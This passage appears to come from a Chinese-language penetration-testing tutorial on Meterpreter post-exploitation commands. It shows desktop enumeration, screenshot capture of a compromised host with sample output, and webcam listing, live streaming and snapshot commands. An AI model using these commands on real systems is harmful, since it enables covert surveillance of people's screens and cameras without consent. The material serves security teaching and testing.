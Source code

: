 ### 桌面命令

使用enumdesktops和getdesktop可以查看被渗透主机的桌面信息，enumdesktops列出了所有可以访问的桌面，而getdesktop列出了当前桌面的相关信息，如下：

```
meterpreter > enumdesktops 
Enumerating all accessible desktops

Desktops
========

    Session  Station   Name
    -------  -------   ----
    0        WinSta0   Default
    0        WinSta0   Disconnect
    0        WinSta0   Winlogon
    0        SAWinSta  SADesktop

meterpreter > getdesktop 
Session 0\W\D
meterpreter > 
```

### 截图和摄像头列举

#### 获取当前桌面的快照

使用screenshot命令

```
meterpreter > screenshot 
Screenshot saved to: /root/iOOsMPCB.jpeg
```

截图的结果：

![img](https://img-blog.csdnimg.cn/20190127151940461.png)

#### 列举摄像头

```
webcam_list 
```

#### 录制实时视频

```
webcam_stream 
```

#### 拍照

```
webcam_snap 
```
